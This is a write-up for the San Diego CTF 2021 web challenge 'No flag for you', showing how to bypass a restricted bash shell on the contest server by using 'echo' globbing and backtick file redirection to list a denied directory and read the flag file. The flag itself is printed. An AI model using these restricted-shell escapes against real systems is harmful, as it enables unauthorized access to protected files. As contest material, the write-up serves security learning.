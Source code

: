 # __San Diego CTF 2021__ 
## _No flag for you_

## Information

**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
WEB | 453 | soska_nerealka

**Description:** 

> Welcome to the most restrictive shell ever, with only 2 semi-functional non-shell commands.
>
> Connect via: nc noflag.sdc.tf 1337

## Solution

Lets connect to the sever with netcat
```
from nclib import netcat

conn = netcat.Netcat(('noflag.sdc.tf', 1337))
print(conn.recvline())
```
It tells us that "There is no flag here." Is it true? Lets find out!

We cant just do
```
conn.sendline(b'ls /opt')
```
because connection returns
```
rbash$ ls: cannot open directory '/opt': Permission denied
```
So lets just google some alternatives for ls. And here it is!

```
conn.sendline(b'echo opt/*')
```
This echo works pretty like ls and permission wont stop us!

It returned to us: opt/flag-b01d7291b94feefa35e6.txt

So now we need to see what it contains. Can we do it again with echo? Lets google again...

Here it is:
```
conn.sendline(b'echo `<opt/flag-b01d7291b94feefa35e6.txt`')
```
We succesfully echoed our flag


> sdctf{1t'5_7h3_sh3ll_1n_4_shEll}
